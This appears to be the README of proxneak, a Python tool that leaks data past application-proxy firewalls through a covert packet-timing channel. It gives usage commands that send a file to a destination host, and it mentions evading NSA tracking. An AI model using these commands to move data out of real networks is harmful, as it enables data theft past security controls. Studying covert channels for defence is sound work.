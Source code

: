 proxneak
========

A means of exfiltrating data through anything that allows a connection,
including regenerative proxies.

The idea came to me while I was tinkering with an application-proxy firewall.
For those unfamiliar, these devices use a deeper level of packet inspection to
determine the protocol in use and match it to a rule.  For example, if generic
HTTP is allowed, then someone trying to tunnel, say, SSH over it would find
the connection dropped.  While there are some clever ways out there of hiding
one protocol in another (HTTP over DNS comes to mind), I wanted a way to send
information regardless of the filters.

Proxneak does this by utilizing the basic behavior of the proxies (if there is
one) to send the packet on if it matches the parameters.  Many proxies will
establish a TCP connection first to see if it's allowed and then look at the
contents to see if it should be closed off.  In part to prevent something
sneaking through in the structure, they regenerate the packet entirely, often
resulting in a TCP connection from an OS different from the originating system
(for example, FreeBSD instead of Windows).  But it still sends a packet, and
that a packet is sent can still be a form of information.

(Note that this might also be a way of sending information, albeit slowly,
that the NSA, et al., can't reasonably track.  Saving all of the SYN packets
that cross the Internet just isn't a practical way of doing business.)

Requirements
============
 - Python 2.7 on sending and receiving side (basic installation may suffice,
   python-argparse sometimes needs to be added)
 - pcapy on the receiving side


Install
=======
Download the latest version from the GitHub repo:

git clone https://github.com/NetworkLlama/proxneak.git


Usage
=====
Set up the server:

==
sudo python proxneak-server.py -i eth0 --proto t -p 80 -f test.txt
==

And then send the data with the client:

==
python proxneak.py -d 198.51.100.27 --proto t -p 80 -f test.txt -r 10
==


Command Line
============
Sender
------
* -h, --help   show this help message and exit
* -s <src>     Source IP address (not currently implemented
* -d <dst>     Destination IP address (required)
* -p port      Destination port (default is 53)
* --proto      Protocol to use (t=TCP, u=UDP (default), i=ICMP); ICMP requires
               root access
* -f filename  Input file name
* -r integer   Number of packets to send per second (default 1; recommended is
               5 or less)
* -v           Verbose mode (be aware that this may leave behind artifacts)
* -V           Display version number
* -z           Compress content with bzip2 before sending

Receiver
--------
* -h, --help          show this help message and exit
* -i <interface>      Listener network interface (required)
* -s <src>            Sending IP address (optional)
* -d <dst>            Receiving IP address (optional)
* -p <port>           Listener port (default is 53)
* --proto <protocol>  Protocol to use (T=TCP, U=UDP (default), I=ICMP)
* -f filename         Output file name (required)
* -r filename         Read a list file in (requires --proto be specified)
* -v                  Verbose mode
* -V                  Display version number
* -z                  Incoming content is compressed with bzip2


Usage Notes
===========
* Sending to a system set to drop the inbound packets seems to work best (at
  least with regard to UDP).
* If you send with -z, you must receive with -z.  There's no automatic checking
  yet for whether incoming material is compressed.
* The rate setting (-r) is the number of packets per second, so it's the
  inverse of the gap between packets (-r 10 is 10pps or ~100ms between
  packets).  Be realistic.  Sending at 100pps might work if you're on a network
  that can actually do full gigabit, it's not going to work.  There's a reason
  the default is 1pps, and even that can have problems.
* Wireless makes life difficult.  The odds of a packet being delayed and
  throwing off the entire thing is extremely high, such that anything past a
  couple of hundred bytes has a very strong tendency to fail unless your gap is
  greater than about eight seconds.


Thanks
======
* Stephen Sims for getting me started on Python in a grueling SANS SEC660 class
* Lelouch Lamperouge for some inspiration on bits-to-bytes conversion
* Silver Moon for his pcapy code
* Catherine for putting up with me while I'm coding


Contact
=======
Jarrod Frates (jfrates@gmail.com)
http://llamasinmynetwork.com
